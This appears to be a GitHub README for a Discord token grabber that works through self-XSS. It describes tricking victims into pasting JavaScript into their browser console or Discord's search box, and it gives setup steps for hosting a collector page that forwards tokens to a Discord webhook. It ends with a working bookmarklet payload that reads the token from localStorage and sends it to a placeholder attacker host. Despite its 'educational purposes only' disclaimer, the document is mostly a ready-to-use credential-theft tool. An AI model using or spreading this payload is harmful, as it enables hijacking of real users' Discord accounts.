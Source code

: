 # Discord Token Grabber via Self-XSS

**Disclaimer**: This project is for **educational purposes only**. The author is not responsible for any misuse or malicious activities. Using this code to compromise accounts is against **Discord's Terms of Service** and may violate applicable laws.

---

## Table of Contents

- [Introduction](#introduction)
- [How It Works](#how-it-works)
- [Features](#features)
- [Setup Instructions](#setup-instructions)
- [Self-XSS Code](#self-xss-code)
- [Warnings](#warnings)
- [License](#license)

---

## Introduction

This repository demonstrates how to grab Discord tokens using a Self-XSS attack. The attack works by tricking users into pasting malicious JavaScript code into their browser's developer console or search tab. This method extracts the user's Discord token and sends it to a specified Discord Webhook.

---

## How It Works

The process involves two main steps:

1. **Self-XSS Exploit**:
   - A malicious JavaScript payload is provided to the victim.
   - When the victim pastes the payload into the browser console or Discord's search tab, the script extracts the Discord token from `localStorage`.

2. **Token Forwarding**:
   - The extracted token is appended as a query parameter to a URL (`https://your-site.com/index.html?site=token`).
   - The hosted `index.html` file receives the token, parses the URL, and sends the token to a Discord Webhook.

---

## Features

- **Token Extraction**: Retrieves the Discord token directly from the browser's `localStorage`.
- **Webhook Integration**: Sends the extracted token to a Discord Webhook for logging.
- **Customizable Hosting**: The `index.html` file can be hosted on any platform (e.g., GitHub Pages, Vercel, Netlify).

---

## Setup Instructions

### Step 1: Modify `index.html`
Replace `YOUR_WEBHOOK_URL` in the `index.html` file with your actual Discord Webhook URL.

### Step 2: Host the HTML File
Host the modified `index.html` on any static website hosting service, such as:
- [GitHub Pages](https://pages.github.com/)
- [Vercel](https://vercel.com/)
- [Netlify](https://www.netlify.com/)

### Step 3: Update the Self-XSS Payload
Replace `https://your-site.com` in the Self-XSS payload with the URL where your `index.html` is hosted.

---

## Self-XSS Code

Here’s a one-liner Self-XSS code that grabs the Discord token and sends it to your hosted `index.html`:

```javascript
javascript:(() => {
    let i = document.createElement('iframe');
    document.body.append(i);
    let t = JSON.parse(i.contentWindow.localStorage.token);
    window.location.href = `https://your-site.com?site=${t}`;
})();

